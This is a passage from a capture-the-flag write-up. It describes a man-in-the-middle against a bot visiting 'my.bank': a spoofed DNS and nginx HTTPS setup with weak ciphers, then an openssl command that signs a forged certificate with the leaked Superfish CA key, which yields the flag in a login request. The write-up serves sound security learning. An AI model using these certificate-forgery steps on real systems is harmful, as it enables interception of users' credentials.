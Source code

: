         ssl\_certificate         my.bank.crt;
        ssl\_certificate\_key     my.bank.key;
        ssl\_protocols       TLSv1 TLSv1.1 TLSv1.2;
        ssl on;
        ssl\_session\_timeout 5m;
        ssl\_ciphers ALL:!ADH:!EXPORT56:RC4+RSA:+HIGH:+MEDIUM:+LOW:+SSLv3:+EXP;
        ssl\_prefer\_server\_ciphers on;

        root /data/www;

        location = / {
                index index.html;
        }

        location / {
                default\_type "text/html";
                try\_files $uri $uri.html;
        }
}

Let's look into traffic again. Hope there should be the flag now!

root@evildns:/etc/nginx# tail -f /var/log/nginx/access.log 
<...>
52.0.164.37 - - \[28/Feb/2015:16:43:02 +0400\] "-" 400 0 "-" "-"

Come on! Where is the flag? We have already even set up HTTPS, WTF?

![](/sites/default/files/writeups/images/bkp2015_kendall_unknown_ca.PNG)

Unknown CA? Of course it is unknown! Where should we get trusted CA who would sign certificate for _my.bank_ domain?

Our _my.bank_ certificate is self-signed without any CA. Later we tried to create root CA self-signed certificate and sign _my.bank_ cert with root CA's one. It did not help.

As we have known from task's author after solving the task, HTTP request to _yandex.ru_ contained hint about this stage. But as I wrote above about _yandex.ru_ we did not receive any incoimng connection at 80 port when spoofed _yandex.ru_ domain.

However if you follow the news about Information Security you should hear about leaked _Superfish Inc._ certificate (and corresponding pre-installed backdoors in lenovo laptops). More info from [Errata Security blog](http://blog.erratasec.com/2015/02/extracting-superfish-certificate.html), for example.

 Let's try to sign our _my.bank_ certificate by _Superfich Inc_:

root@evildns:/etc/nginx# openssl x509 -req -days 365 -in my.bank.csr -CAkey super.pem -CA super.crt -out supermy.bank.crt
Signature ok
subject=/C=AU/ST=Some-State/O=Internet Widgits Pty Ltd/CN=my.bank
Getting CA Private Key
Enter pass phrase for super.pem:

dnd listen for incoming requests again:

root@evildns:/etc/nginx# tail -f /var/log/nginx/access.log 
<...>
52.0.164.37 - - \[28/Feb/2015:13:44:53 +0000\] "GET /login/username=FLG-SIK9KSRBHIYUKNGEBXlKW3B7HS2I HTTP/1.1" 404 168 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:29.0) Gecko/20120101 Firefox/29.0"
